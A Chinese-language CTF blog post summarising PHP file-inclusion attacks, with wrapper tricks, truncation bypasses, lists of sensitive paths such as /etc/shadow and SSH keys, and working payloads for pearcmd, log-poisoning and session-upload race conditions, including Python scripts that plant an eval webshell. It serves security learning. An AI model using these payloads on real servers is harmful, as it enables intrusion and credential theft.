

# 文件包含漏洞
# 前言
目前 ctf 比赛也打过不少了，也遇到过不少知识点，知识广度是有的，但是这样一直前进下去，前期可能感觉没什么，越往后我越能发现一个弊端，就是知识太散了，散到如一盘沙砾，每次想要抓住只能抓住部分。
正好昨天打了以下 ctfshow 平台的元旦水友赛，第一道就是文件包含，在利用 file://localhost/etc/hosts 的方式，来绕过开头必须是字母的限制后我想到很多种包含方式，比如日志文件包含，远程文件包含啥的，但其实这道题的考点是裸文件包含，但当时的我在尝试前面两种方法无果后，并没有立即反应过来。这让我羞恼之际下一瞬间手脚冰凉，浑身不由颤动起来，只觉得这大冷天心更冷了。
裸文件包含的题目我并不是没有写过，但它的利用环境我却始终没有注意过，也正是这个原因让我第一时间没有反应过来。再三反省后，随后便是释然，这何尝不是题目的一种考察方式，真实的渗透测试环境下可不会让你这么简单就看穿漏洞，连一刻也没有为为这次经历而失落，下面进行的是对文件包含漏洞的总结，同时也是我 2024 年的第一篇博客，以此来纪念那个 2023 年不知所措但又知其所向的我。
# 文件包含漏洞基础知识
本篇文章是记录我打 CTF 比赛中的一些文件包含漏洞利用经验（由于比赛大部分是 PHP 的文件包含，所以这里是以 PHP 的文件包含为案例来写的，其他语言的文件包含类似）。
老生常谈的问题
# 文件包含漏洞是什么？
其实我一直觉得概念这种抽象的东西其实很难用一小段简短的语言来描述，你很难让每个人都对这个概述认可，所以写的不好的地方还请多多包含。
这里我从两个角度来说明：
后端编程人员一般会把重复使用的函数写到单个文件中，需要使用时再直接调用文件即可，该过程称为文件包含。但是这样做也带来许多安全问题。比如一般情况下会采用变量的形式来传递需要包含的文件，但是在使用包含文件的过程中，未对包含的变量进行检查及过滤，这就使得假如客户端可以控制这个变量传入的值，可以通过提交恶意的数据作为变量进入到了文件包含的过程中，从而导致提交的恶意数据被执行。
# 一般会使用以下函数来进行文件包含：
| require() | 找不到被包含的文件会产生致命错误，并停止脚本执行 |
|---|---|
| include() | 找不到被包含的文件只会产生警告，脚本继续执行 |
| require_once() | 与 require () 类似，唯一的区别是如果该文件的代码已经被包含，则不会再次包含 |
| include_once() | 与 include () 类似，唯一的区别是如果该文件的代码已经被包含，则不会再次包含 |
（比较常见的还有这些函数： highlight_file() 、 show_source() 、 readfile() 、 file_get_contents() 、 fopen() 、 file() ）
当利用这四个函数来包含文件时，不管文件是什么类型（图片、txt 等等），都会直接作为 php 文件进行解析。
PHP 内置了很多 URL 风格的封装协议，可用于类似 fopen ()、copy ()、file_exists () 和 filesize () 的文件系统函数
所以在文件包含中，php 伪协议有着至关重要的作用。
# 一张表了解 php 的伪协议：
| 协议 | 测试 php 版本 | allow_url_fopen | allow_url_include | 用法 |
|---|---|---|---|---|
| file:// | >=5.2 | off/on | off/on | ?file=file:///etc/passwd |
| php://filter | >=5.2 | off/on | off/on | ?file=php://filter/read=convert.base64-encode/resource=./index.php |
| php://input | >=5.2 | off/on | on | ?file=php://input POST DATA |
| zip:// | >=5.2 | off/on | off/on | ?file=zip:///tmp/1.zip%231.txt |
| compress.bzip2:// | >=5.2 | off/on | off/on | ?file=compress.bzip2://./file.bz2 |
| compress.zlib:// | >=5.2 | off/on | off/on | ?file=compress.zlib://./file.gz |
| data:// | >=5.2 | on | on | ?file=data://text/plain, or ?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg== or ?file=data:text/plain, or ?file=data.text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg== |
| phar:// | >=5.2 | off/on | off/on | ?file=phar://php.zip/php.jpg |
- allow_url_fopen: 这个选项允许 PHP 通过网络协议（例如
http://或ftp://）打开远程文件。当allow_url_fopen被设置为On时，PHP 的文件处理函数（如file_get_contents()和fopen()）可以使用 URL 来访问网络上的资源。这可以让你的脚本从其他服务器上获取数据，但是同时也可能带来安全风险，因为不安全的使用可能会导致代码注入攻击。- allow_url_include: 这个选项与
allow_url_fopen类似，但它是专门针对 PHPinclude和require语句的。当allow_url_include设置为On时，这两个语句可以使用 URL 来包含远程文件作为 PHP 代码执行。这更加危险，因为它允许执行远程服务器上的 PHP 代码，这可能导致严重的安全漏洞，如远程文件包含（Remote File Inclusion, RFI）攻击。
# 各个协议详解
file 协议
可在 allow_url_fopen ：off/on allow_url_include：off/on 下均可使用，但是必须要用绝对路径，而且可以读取文件，当然文件内容不能是 php 代码形式（这点要切记，非常容易犯错）否则会被直接解析。如果不是 php 代码的内容会被直接显示出来。
php:// 协议
条件：
不需要开启 allow_url_fopen，仅 php://input、 php://stdin、 php://memory 和 php://temp 需要开启 allow_url_include。
1、php://filter 不需要 allow_url 开启即可读取、包含。PHP 代码读取需要编码否则直接执行 php 代码（很重要）
2、常用来读取代码的包含命令 php://filter/read=convert.base64-encode/resource=./cmd.php
3、php://input 需要 allow_url_include:on
4、当 allow_url_include 为 On，而 allow_url_fopen 为 Off 的时候，不可以直接远程包含文件，但是可以使用 php://input、 php://stdin、 php://memory 和 php://temp 等伪协议
5、利用 php 的数据协议 data:// 可以查看文件源代码，前提是 php.ini 中的 allow_url_fopen 和 allow_url_include 两个配置为 on
zip 协议
zip://, bzip2://, zlib:// 协议在 allow_url 双 off 的情况下都可以正常使用；zip 协议：php5.2.x 需要绝对路径 其他版本可以相对路径 windows 复现成功了
包含例子：zip://1.png%231.php 或者 zip://1.zip%231.php
phar 协议
allow 两个都为 ON 并且 PHP 版本高于 5.3
例子：http://127.0.0.1/file.php?file=phar://phartest2.zip/a.jpg 和 zip 伪协议是一样的用法
生成 phar 打包代码：
<?php
$p = new PharData(dirname(__FILE__).'/phartest2.zip', 0,'phartest2',Phar::ZIP) ;
$x=file_get_contents('./php.php');
$p->addFromString('a.jpg',$x);
//会生成一个zip的压缩文件phartest2.zip 其中压缩了一个a.jpg a.jpg里面代码是php.php的内容
//当然和zip协议一样，你也可以把phartest2.zip改成任意后缀，这里的后缀和包含读取是没有关系的。怎么绕过白名单方便就怎么来
//然后我们构造http://127.0.0.1/file.php?file=phar://phartest2.zip/a.jpg
//也可以直接shell
//其中phar适用范围为php>5.3.0
?>
data: 协议
allow_url 两个都需要 On (没用，都为 on 我直接就去 php://input getshell 了)
例子：data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg （phpinfo)
伪协议不止用在文件包含中，所有和文件有关的操作都可以进行伪协议的利用，例如以下函数均可支持伪协议：
fopen() | |
file_get_contents() | |
copy() | |
parse_ini_file() | |
readfile() | |
file_put_contents() | |
mkdir() | |
tempnam() | |
touch() | |
move_uploaded_file() | |
rename() | |
unlink() | |
rmdir() | |
require() | |
include() | |
require_once() | |
include_once() | |
ZipArchive::open() |
# 对于文件包含的分类有个笼统的分类：
本地文件包含 (Loacl File Inclusion,LFI) 和远程文件包含 (Remote File Inclusion,RFI)。
下面我将对两种包含形式进行详细介绍。
# 本地文件包含
本地文件包含就是通过浏览器包含 web 服务器上的文件，这种漏洞是因为浏览器包含文件时没有进行严格的过滤允许遍历目录的字符注入浏览器并执行。
首先，当值可以直接被控制时，你就会有一个非常类似的如下的代码片段。
<?php | |
$file=$_GET['filename']; | |
include($file); | |
?> |
这时候你就可以利用伪协议随意地对该服务器上的文件进行读取了，你可以使用绝对路径直接读取，也可以使用相对路径读取，通过./ 表示当前文件位置，../ 表示上一级路径位置。
这时候知道一些敏感文件的路径就至关重要了，有时候你不知道包含什么就可试试以下路径，说不定有奇效。
# 敏感文件路径
日志路径 | |
/logs/access.log #windows apache | |
/logs/error.log #windows apache | |
/var/log/apache/error.log #Apache | |
/var/log/apache/access_log #Apache | |
/var/www/logs/access_log #Apache | |
/var/log/asscess_log #Apache | |
/var/log/access.log #Apache | |
/usr/local/apache/logs/error_log | |
/usr/local/apache/logs/access_log | |
/etc/httpd/logs/access_log #Apache | |
/var/log/nginx/access.log或者error.log #Nginx | |
/logs/access.log或者error.log #windows Nginx | |
C:\windows\system32\LogFiles #iis6.0版本 | |
%SystemDrive%\inetpub\logs\LogFiles #iis7.5版本 | |
session 路径 | |
/tmp/sess_phpsession_id | |
敏感信息路径 | |
windows | |
c:\boot.ini #查看系统版本 | |
c:\Windows\System32\inetsrv\MetaBase.xml #IIS配置文件 | |
c:\Windows\repair\sam #存储系统初次安装密码 | |
c:\Windows\php.ini #php配置信息 | |
c:\Windows\my.ini #mysql配置信息 | |
c:\Program Files\mysql\my.ini | |
c:\Program Files\mysql\data\mysql\user.MYD #mysql root | |
phpstudy的各种路径具体分析 | |
linux | |
/root/.ssh/authorized_keys | |
/root/.ssh/id_rsa | |
/root/.ssh/id_rsa.keystore | |
/root/.ssh/known_hosts | |
/etc/passwd #账户信息 | |
/etc/shadow #账户密码信息 | |
/etc/my.cnf | |
/root/httpd/conf/httpd.conf | |
/root/.bash_history | |
/root/.mysql_history | |
/proc/self/fd/fd[0-9]* | |
/proc/mounts | |
/proc/config.gz | |
/usr/local/app/apache2/conf/httpd.conf #Apache2默认配置文件 | |
/usr/local/app/apache2/conf/extra/httpd-vhost.conf #虚拟网站配置 | |
/usr/local/app/php5/lib/php.ini #PHP相关配置 | |
/etc/httpd/conf/httpd.conf #Apache配置文件 | |
/proc/self/cmdline | |
/proc/self/environ | |
/etc/apache2/apache2.conf #ubuntu 下配置文件 | |
/etc/my.conf # MySQL 配置文件 | |
/etc/nginx/nginx.conf #Nginx配置文件 |
接下来正式开始记录目前 CTF 比赛中文件包含考察的几种形式
# 伪协议读文件
这种是最直白的，也是下面几种文件包含利用的基础，
普遍用伪协议读文件都是转成 base64 的 Steam：
php://filter/convert.base64-encode/resource= |
当然也有 string.rot13 之类的，但是如果 string base 关键字不能用的情况下，还可以用 iconv 转编码，例如：
php://filter/convert.iconv.ASCII.UCS-2BE/resource=index.php | |
php://filter/convert.iconv.utf-8.utf-7/resource=index.php |
至于 php 的 iconv 都能用哪些编码，可以从 PHP 官网查看，挑两个编码用一下就行了。
实在不行就研究一下这篇文章：
php://filter 的各种过滤器
除此之外，还可以利用 include 函数解 urlencode 的特性来编码绕过。
当然做题目不可能让你就这么一帆风顺，总会给你上强度。
于是在题目中往往会添加诸多一些限制，比如为文件指定了特定的前缀或者拓展名，攻击者必须要对前缀或者拓展名过滤，才能达到利用文件
# 常见的过滤绕过方式有三种：
- %00 截断文件包含
- 路径长度截断包含
- 点好截断文件包含
# %00 截断文件包含
利用条件
这个漏洞的使用必须满足如下条件
- magic_quotes_gpc=off
- PHP 版本低于 5.3.4
示例代码
<?php | |
$file=$_GET['file']; | |
include ($file.".html"); | |
?> |
测试结果
输入以下测试代码：http://www.abc.com/xxx/file.php?file=../../../../../../boot.ini%00
通过 %00 截断了后面的 html 拓展名过滤，成功读取了 boot.ini 的内容
# 路径长度截断文件包含
操作系统存在着最大路径长度的限制。可以输入超过最大路劲长度的目录，这样系统就会将后面的路劲丢弃，导致拓展名截断。
漏洞利用条件
- Windows 下最大路径长度为 256B
- Linux 下最大路径长度为 4096B
示例代码
<?php | |
$file=$_GET['file']; | |
include ($file.".html"); | |
?> |
# 测试结果
输入测试以下代码：
http://www.abc.com/xxx/file.php?file=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././ |
执行后发现已经成功截断了后面的拓展名
# 点号截断文件包含
漏洞利用条件
点号截断包含只使用与 Windows 系统，点号的长度大于 256B 的时候，就可以造成拓展名截断
示例代码
<?php | |
$file=$_GET['file']; | |
include ($file.".html"); | |
?> |
测试结果
http://www.abc.com/xxx/file.php?file=test.txt......................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................... |
发现已经成功截断了 html 拓展名
# 裸文件包含
这种文件包含方式也就是那道坏我道心题目的知识点，原理我就不过多赘述了，直接看 p 神的文章就行：
Docker PHP 裸文件本地包含综述
或者这位佬的文章也行：
利用 pearcmd.php 文件包含拿 shell（LFI）
然后说一下它的利用条件：
# 利用条件
1. 安装了 pear 扩展（pear 就是一个 php 扩展及应用的代码仓库，没有安装 pear 扩展的话就没有 pear.php 文件可以利用了，pecl 是 PHP 中用于管理扩展而使用的命令行工具，而 pear 是 pecl 依赖的类库。在 7.3 及以前，pecl/pear 是默认安装的；在 7.4 及以后，需要我们在编译 PHP 的时候指定
--with-pear才会安装。）2. 知道 pearcmd.php 文件的路径（默认路径是 /usr/local/lib/php/pearcmd.php）
3. 开启了 register_argc_argv 选项（只有开启了，$_SERVER [‘argv’] 才会生效。）
4. 有包含点，并且能包含 php 后缀的文件，而且没有 open_basedir 的限制。
我直接拿我之前做过的一道题目举例吧：
这是题目：
<?php | |
error_reporting(0); | |
if(isset($_GET['file'])) { | |
$file = $_GET['file']; | |
if(preg_match('/flag|log|session|filter|input|data/i', $file)) { | |
die('hacker!'); | |
} | |
include($file.".php"); | |
# Something in phpinfo.php! | |
} | |
else { | |
highlight_file(__FILE__); | |
} | |
?> |
题目过滤了常见的伪协议，然后提示说在 phpinfo.php 文件中有东西？file=phpinfo 看到一串敏感信息： fake
然后检查 register_argc_argv 发现都是 on。 结合标题，pear 很明显是 pear 裸文件包含。
payload:
/?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST['cmd']);?>+/tmp/cmd.php
简单解释一下： 首先得知道 $_SERVER ['argv'] 通过 query_string 取值，并通过 + 作为分割符， 然后就是 config-create，阅读其代码和帮助，可以知道，它可以直接创建配置文件，这个命令需要传入两个参数，且第一个参数必须以 / 开头，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。 这里的：/&file=/usr/local/lib/php/pearcmd&/ 就是第一个参数，由于 php 会将格式错误的代码忽视，所以这句话即起到将 /usr/local/lib/php/pearcmd 包含的作用，又写入了一句话木马文件的内容， 所以也可以这样写：
?file=/usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_POST['cmd']);?>+/tmp/cmd.php
最后：
?file=/tmp/cmd
#post
0=system ("cat /flag"); 即可。
# 日志文件包含
一般来说，这种文件包含形式可以细分为两种 —— 中间件日志包含和 ssh 日志包含
# 中间件日志文件包含
利用条件：
- web 中间件日志文件的存储位置已知，并且具有可读权限
这个所谓的中间件，在平常的比赛中通常是 apache,nginx 服务器，当然
中间件可以是任何类型的软件，例如：
- 消息队列系统（如 RabbitMQ、Apache Kafka）：允许应用程序异步交换数据和指令。
- Web 服务器（如 Apache, Nginx）：处理 HTTP 请求，并将它们路由到后台应用程序。
- 数据库中间件：允许不同的数据库系统之间或应用程序与数据库之间的通信。
- 应用服务器（如 Tomcat, WebLogic）：提供运行环境来部署、运行和管理 Web 应用程序。
- API 网关：管理微服务或服务导向架构中的 API 调用。
这种文件包含首先你得知道日志文件的路径，所以可以拿上面给的敏感路径试试，实在不知道可以通过先包含配置文件来确定日志文件路径：
/etc/init.d/httpd | |
/etc/httpd/conf/httpd.conf |
说再多都不如实战：
<?php | |
//WEB 手要懂得搜索 | |
if(isset($_GET['file'])){ | |
$file = $_GET['file']; | |
if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){ | |
die("error"); | |
} | |
include($file); | |
}else{ | |
highlight_file(__FILE__); | |
} |
过滤了很多，伪协议近乎全军覆没，但是没有关系，我们可以使用日志包含。
发送请求 GET /?file=/var/log/nginx/access.log HTTP/1.1 发现回显出的结果存在 User-Agent 的内容，所以可在在这里进行命令执行。 由于 include 会把文件当成 php 文件执行，所以我们可以这样写：
GET /?file=/var/log/nginx/access.log HTTP/1.1 Host: node5.anna.nssctf.cn:28449 Upgrade-Insecure-Requests: 1 User-Agent: Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 |
这里 system 中不能用双引号，否则会和 index 文件中的 include 函数中的双引号起冲突。
# ssh 日志文件包含
SSH 日志文件包含的利用条件是：
- SSH 日志路径已知，并且具有可读权限
SSH 如果开启了日志记录的功能，那么会将 ssh 的连接日志记录到 ssh 日志文件当中
将连接的用户名设置成恶意代码，用命令连接服务器 192.168.1.1 的 ssh 服务
ssh "<?php @eval($_POST[123]);?>"@192.168.1.1
查看日志文件 /var/log/auth.log，可以观察到恶意代码已经写入到日志文件
测试输入语句： http://192.168.1.1/xxx/file.php?file=../../../var/log/auth.log
之后再向网页传入 POST 参数： 123=phpinfo
就可以出现 phpinfo 的内容了
# session 文件包含
当可以获取 session 文件路径并且 session 文件的内容可控的的时候，就可以通过包含 session 文件进行攻击
# 利用条件
session 文件包含的利用条件有两个：
- Session 的存储位置可以获取
- Session 的内容可控
一般通过以下两种方式获取 session 的存储位置：
- 通过 phpinfo 的信息获取 session 的存储位置。
通过 phpinfo 的信息获取session.save_path- 通过猜测默认的 session 存储位置进行尝试
通常 Linux 中的 Session 的默认存储位置在- /var/lib/php/sess_PHPSESSID
- /var/lib/php/sessions/sess_PHPSESSID
- /tmp/sess_PHPSESSID
- /tmp/sessions/sess_PHPSESSID
session 文件包含代码如下
session_start(); | |
$ctfs=$_GET['ctfs']; | |
$_SESSION['username']=$ctfs |
此代码可以通过 GET 型的 ctfs 参数传入。PHP 代码将会获取的值存入到 Session 中。
攻击者可以利用 ctfs 参数将恶意代码写入到 session 文件中，然后在利用文件包含漏洞包含此 session 文件，向系统中传递恶意代码。
session 文件名的构造是 sess_ + sessionid ， sessionid 在 cookie 中可以查看
漏洞分析
上面的代码满足 Session 文件包含的两个要求
- PHP 代码将会获取 ctfs 变量的值存入到 session 中
- Session 的默认 存储位置是 /var/lib/php/session
访问 URL： http://www.abc.com/xxx/session.php?ctfs=a 会在 /var/lib/php/session 目录下降 ctfs 传入的值存储到 session 中
Session 的文件名以 sess_开头，后跟 Sessionid，Sessionid 可以通过开发者模式获取：
单击右键 —— 检查 —— 存储 ——Cookie——PHPSESSID 就可以找到内容
假设通过开发者模式获取到的 sessionid 的值为 hufh7hsdf392eurh4, 所以 session 的文件名为 sess_hufh7hsdf392eurh4
在 /var/lib/php/session 目录下查看此文件，内容为：username|s:4:"a"
漏洞利用
通过上面的分析，可以得知，向 ctfs 参数传入的内容会存储到 session 文件中。
如果存在本地文件包含漏洞，就可以通过 ctfs 写入恶意代码到 Session 文件当中去，然后通过文件包含漏洞执行 getshell
例如：访问代码 http://www.abc.com/xxx/session.php?ctfs=<?php phpinfo();?> 后，会在 /var/lib/php/session 目录下降 ctfs 的值写入 session 文件
session 文件的内容为： username|s:18:"<?php phpinfo();?>" .
此时通过本地文件包含漏洞可以解析 session 文件达到攻击的目的
比如： http://www.abc.com/xxx/file.php?file=../../var/lib/php/session/sess_7sdfysdfywy9323cew2
有时候题目并不会出现
session_start(); | |
$ctfs=$_GET['ctfs']; | |
$_SESSION['username']=$ctfs |
也就是说并不会启用 session，这时候我们就可以利用 SESSION_UPLOAD_PROGRESS
首先先了解
# 与 SESSION 有关的几个 PHP 选项
session.auto_start ：如果开启这个选项，则 PHP 在接收请求的时候会自动初始化 Session，不再需要执行 session_start ()。但默认情况下，也是通常情况下，这个选项都是默认关闭的。
session.upload_progress.cleanup = on ：表示当文件上传结束后，php 将会立即清空对应 session 文件中的内容。该选项默认开启
session.use_strict_mode ：默认情况下，该选项的值是 0，此时用户可以自己定义 Session ID。
session Upload Progress
Session Upload Progress 即 Session 上传进度，是 php>=5.4 后开始添加的一个特性。官网对他的描述是当 session.upload_progress.enabled 选项开启时（默认开启），PHP 能够在每一个文件上传时 监测上传进度。这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个 POST 请求到终端（例如通过 XHR）来检查这个状态。
当一个上传在处理中，同时 POST 一个与 INI 中设置的 session.upload_progress.name 同名变量时，上传进度可以在 SESSION 中获得。当 PHP 检测到这种 POST 请求时，它会在_SESSION 中添加一组数据，索引是 session.upload_progress.prefix 与 session.upload_progress.name 连接在一起的值。
下面给出一个 php 官方文档的一个进度数组的结构的样例：
<form action="upload.php" method="POST" enctype="multipart/form-data"> | |
<input type="hidden" name="<?php echo ini_get("session.upload_progress.name"); ?>" value="123" /> | |
<input type="file" name="file1" /> | |
<input type="file" name="file2" /> | |
<input type="submit" /> | |
</form> |
此时在 session 中存放的数据看上去是这样子的：
<?php | |
$_SESSION["upload_progress_123"] = array( // 其中存在上面表单里的 value 值 "123" | |
"start_time" => 1234567890, // The request time 请求时间 | |
"content_length" => 57343257, // POST content length post 数据长度 | |
"bytes_processed" => 453489, // Amount of bytes received and processed 已接收的字节数量 | |
"done" => false, // true when the POST handler has finished, successfully or not | |
"files" => array( | |
0 => array( | |
"field_name" => "file1", // Name of the <input/> field 上传区域 | |
// The following 3 elements equals those in $_FILES | |
"name" => "foo.avi", // 上传文件名 | |
"tmp_name" => "/tmp/phpxxxxxx", // 上传后在服务端的临时文件名 | |
"error" => 0, | |
"done" => true, // True when the POST handler has finished handling this file | |
"start_time" => 1234567890, // When this file has started to be processed | |
"bytes_processed" => 57343250, // Amount of bytes received and processed for this file | |
), | |
// An other file, not finished uploading, in the same request | |
1 => array( | |
"field_name" => "file2", | |
"name" => "bar.avi", | |
"tmp_name" => NULL, | |
"error" => 0, | |
"done" => false, | |
"start_time" => 1234567899, | |
"bytes_processed" => 54554, | |
), | |
) | |
); |
# 利用 Session Upload Progress 上传 Session
Session Upload Progress 最初是 PHP 为上传进度条设计的一个功能，在上传文件较大的情况下，PHP 将进行流式上传，并将进度信息放在 Session 中，此时即使用户没有初始化 Session，PHP 也会自动初始化 Session。而且，默认情况下 session.upload_progress.enabled 是为 On 的，也就是说这个特性默认开启。所以，我们可以通过这个特性来在目标主机上初始化 Session。
从上面官方的案例和结果中可以看到，session 中一部分数据（session.upload_progress.name）是用户自己可以控制的。那么我们只要在上传文件的时候，同时 POST 一个恶意的字段 PHP_SESSION_UPLOAD_PROGRESS ，目标服务器的 PHP 就会自动启用 Session，Session 文件将会自动创建。
我们怎么将 session 传过去呢？这里我们需要在本地构造一个上传和 POST 同时进行的情况，接下来我们构造一个上传表单，把下面代码保存为
<!doctype html> | |
<html> | |
<body> | |
<form action="http://192.168.43.82/index.php" method="POST" enctype="multipart/form-data"> | |
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" /> | |
<input type="file" name="file" /> | |
<input type="submit" /> | |
</form> | |
</body> | |
</html> |
本地访问 poc.html，然后随便上传个文件后抓包，在 HTTP 头中加上一个 Cookie: PHPSESSID ：
成功在目标主机上初始化了一个随机命名的 Session
# 利用 Session Upload Progress 来 Getshell
在上面的实验中我们成功利用 PHP_SESSION_UPLOAD_PROGRESS ，目标服务器上自动创建了一个 Session 文件。如果此时目标网站还存在文件包含漏洞的话，我们便可以配合文件包含漏洞来 Getshell。其原理大致就是通过 PHP_SESSION_UPLOAD_PROGRESS 在目标主机上创建一个含有恶意代码的 Session 文件，之后利用文件包含漏洞去包含这个我们已经传入恶意代码的这个 Session 文件就可以达到攻击效果。
但是现实是残酷的，事实上这并不能完全的利用成功，因为 PHP 的 session.upload_progress.cleanup = on 这个默认选项会有限制。即文件上传结束后，PHP 将会立即清空对应 Session 文件中的内容，这就导致我们在包含该 Session 的时候相当于在包含了一个空文件，没有包含我们传入的恶意代码。所以我们需要条件竞争，赶在文件被清除前利用包含即可。
还有一个点就是，如果此时不规定目标服务器上生成的 Session 文件的名字，就会生成一大堆不一样的 Session 文件，由于该 Session 文件过马上就会被清除，所以根本不是知道到底要用哪一个 Session 文件
所以这里还要对生成的 Session 文件进行重命名，规定其生成指定的名字，当然这也是可行的，就是在 cookie 里面修改 PHPSESSID 的值。假设我们修改 PHPSESSID 为 whoami，则生成统一的 Session 文件 ——"sess_whoami"
默认情况下，session.use_strict_mode 值是 0，此时用户是可以自己定义 Session ID 的。比如，我们在 Cookie 里设置 PHPSESSID=whoami，PHP 将会在服务器上创建一个 session 文件：/var/lib/php/sessions/sess_whoami。
使用 Python 实现创建 Session 文件的过程：
import io | |
import requests | |
import threading | |
sessid = 'whoami' | |
def POST(session): | |
f = io.BytesIO(b'a' * 1024 * 50) | |
session.post( | |
'http://192.168.43.82/index.php', | |
data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php phpinfo();fputs(fopen('/var/www/html/shell.php','w'),'<?php @eval($_POST[whoami])?>');?>"}, | |
files={"file":('q.txt', f)}, | |
cookies={'PHPSESSID':sessid} | |
) | |
with requests.session() as session: | |
while True: | |
POST(session) | |
print("[+] 成功写入sess_whoami") |
然后接下来就是抓包进行条件竞争了。
当然，也可以利用以下代码：
import io | |
import sys | |
import requests | |
import threading | |
sessid = 'whoami' | |
def POST(session): | |
while True: | |
f = io.BytesIO(b'a' * 1024 * 50) | |
session.post( | |
'http://192.168.43.82/index.php', | |
data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php phpinfo();fputs(fopen('/var/www/html/shell.php','w'),'<?php @eval($_POST[whoami])?>');?>"}, | |
files={"file":('q.txt', f)}, | |
cookies={'PHPSESSID':sessid} | |
) | |
def READ(session): | |
while True: | |
response = session.get(f'http://192.168.43.82/index.php?file=../../../../../../../../var/lib/php/sessions/sess_{sessid}') | |
# print('[+++]retry') | |
# print(response.text) | |
if 'flag' not in response.text: | |
print('[+++]retry') | |
else: | |
print(response.text) | |
sys.exit(0) | |
with requests.session() as session: | |
t1 = threading.Thread(target=POST, args=(session, )) | |
t1.daemon = True | |
t1.start() | |
READ(session) |
# 临时文件包含
在这之前，可以先了解一下 php 临时文件的机制。
# 全局变量
在 PHP 中可以使用 POST 方法或者 PUT 方法进行文本和二进制文件的上传。上传的文件信息会保存在全局变量 $_FILES 里。
$_FILES 超级全局变量很特殊，他是预定义超级全局数组中唯一的二维数组。其作用是存储各种与上传文件有关的信息，这些信息对于通过 PHP 脚本上传到服务器的文件至关重要。
$_FILES['userfile']['name'] 客户端文件的原名称。 | |
$_FILES['userfile']['type'] 文件的 MIME 类型，如果浏览器提供该信息的支持，例如"image/gif"。 | |
$_FILES['userfile']['size'] 已上传文件的大小，单位为字节。 | |
$_FILES['userfile']['tmp_name'] 文件被上传后在服务端储存的临时文件名，一般是系统默认。可以在php.ini的upload_tmp_dir 指定，默认是/tmp目录。 | |
$_FILES['userfile']['error'] 该文件上传的错误代码，上传成功其值为0，否则为错误信息。 |
在临时文件包含漏洞中 $_FILES['userfile']['name'] 这个变量值的获取很重要，因为临时文件的名字都是由随机函数生成的，只有知道文件的名字才能正确的去包含它。
# 存储目录
文件被上传后，默认会被存储到服务端的默认临时目录中，该临时目录由 php.ini 的 upload_tmp_dir 属性指定，假如 upload_tmp_dir 的路径不可写，PHP 会上传到系统默认的临时目录中。
不同系统服务器常见的临时文件默认存储目录，了解系统的默认存储路径很重要，因为在很多时候服务器都是按照默认设置来运行的。
Linux 目录
Linxu 系统服务的临时文件主要存储在根目录的 tmp 文件夹下，具有一定的开放权限。
/tmp/ |
windows 目录
Windows 系统服务的临时文件主要存储在系统盘 Windows 文件夹下，具有一定的开放权限。
C:/Windows/ | |
C:/Windows/Temp/ |
# 命名规则
存储在服务器上的临时文件的文件名都是随机生成的，了解不同系统服务器对临时文件的命名规则很重要，因为有时候对于临时文件我们需要去爆破，此时我们必须知道它的命名规则是什么。
可以通过 phpinfo 来查看临时文件的信息。
Linux Temporary File
Linux 临时文件主要存储在 /tmp/ 目录下，格式通常是（ /tmp/php[6个随机字符] ）
Windows Temporary File
Windows 临时文件主要存储在 C:/Windows/ 目录下，格式通常是（ C:/Windows/php[4个随机字符].tmp ）
PHPINFO 特性
